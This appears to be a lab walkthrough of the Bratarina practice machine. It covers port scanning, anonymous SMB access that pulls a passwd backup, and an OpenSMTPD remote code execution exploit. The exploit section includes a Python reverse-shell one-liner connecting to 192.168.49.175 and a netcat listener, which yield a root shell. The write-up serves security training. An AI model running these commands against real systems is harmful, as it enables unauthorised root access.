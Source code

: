 ```yaml
---
description: 12/1/2022
---
```


# Bratarina

## Information Gathering

Scanned all TCP ports:

```
PORT    STATE  SERVICE     VERSION
22/tcp  open   ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dbdd2cea2f85c589bcfce9a338f0d750 (RSA)
|   256 e3b765c2a78e4529bb62ec301aebed6d (ECDSA)
|_  256 d55b795bce48d85746db594fcd455def (ED25519)
25/tcp  open   smtp        OpenSMTPD
| smtp-commands: bratarina Hello nmap.scanme.org [192.168.49.175], pleased to meet you, 8BITMIME, ENHANCEDSTATUSCODES, SIZE 36700160, DSN, HELP
|_ 2.0.0 This is OpenSMTPD 2.0.0 To report bugs in the implementation, please contact bugs@openbsd.org 2.0.0 with full details 2.0.0 End of HELP info
53/tcp  closed domain
80/tcp  open   http        nginx 1.14.0 (Ubuntu)
|_http-title:         Page not found - FlaskBB        
|_http-server-header: nginx/1.14.0 (Ubuntu)
445/tcp open   netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: COFFEECORP)
Service Info: Host: bratarina; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h40m00s, deviation: 2h53m14s, median: 0s
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-12-01T23:59:59
|_  start_date: N/A
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: bratarina
|   NetBIOS computer name: BRATARINA\x00
|   Domain name: \x00
|   FQDN: bratarina
|_  System time: 2022-12-01T19:00:01-05:00
```

Enumerated UDP ports:

```
```

Notes:

* 80/HTTP - <mark style="color:yellow;">nginx 1.14.0</mark>
  * <mark style="color:yellow;">Lots of broken links and other functionality</mark>
  * <mark style="color:yellow;">Viewed source code</mark>
* 25/SMTP <mark style="color:yellow;">OpenSMTPD 2.0.0</mark>
  * <mark style="color:yellow;">Searchsploit returns numerous exploits</mark>
* 445/SMB <mark style="color:yellow;">Samba 4.7.6</mark>
  * <mark style="color:yellow;">Enum4linux null shares</mark>

## Enumeration

### Port 80 - HTTP (nginx 1.14.0)

Dirsearch:

```
```

### Port 445 - Samba

Enum4Linux:

```
enum4linux 192.168.175.71
```

<figure><img src="../../../.gitbook/assets/image (59).png" alt=""><figcaption><p>backups share</p></figcaption></figure>

smbclient (Null authentication)

```
smbclient '\\\\192.168.175.71\\backups'
Password:(press enter)
smb: \>get passwd.bak
```

* We see passwd.bak
* It is a backup of /etc/passwd

passwd.bak:

<figure><img src="../../../.gitbook/assets/image (11) (5) (1).png" alt=""><figcaption><p>Contents of /etc/passwd backup</p></figcaption></figure>

## Exploitation

### OpenSMTPD 6.6.1 - Remote Code Execution

{% embed url="https://www.exploit-db.com/exploits/47984" %}
PoC
{% endembed %}

Syntax for Exploit:

{% code overflow="wrap" %}
```
python3 47984 192.168.175.71 25 'python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.49.175\",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"/bin/bash\")"'
```
{% endcode %}

Nc Listener:

```
sudo nc -lnvp 80
```

## Privilege Escalation

None, landed as root

## Proofs

<figure><img src="../../../.gitbook/assets/image (1) (11) (1).png" alt=""><figcaption><p>Proof.txt</p></figcaption></figure>
